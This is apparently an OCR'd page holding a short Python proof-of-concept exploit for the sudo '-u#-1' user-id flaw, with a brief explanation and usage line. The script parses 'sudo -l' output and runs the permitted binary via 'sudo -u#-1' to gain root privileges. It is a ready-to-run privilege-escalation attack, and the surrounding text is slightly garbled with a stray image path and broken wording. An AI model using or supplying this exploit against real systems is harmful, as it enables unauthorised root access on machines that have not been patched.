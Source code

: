 ```bash
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
Proof of Concept Code :

How to use :
python3 sudo_exploit.py

'''


#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")


#check which binary the user can run with sudo

os.system("sudo -l > priv")


os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
            
```

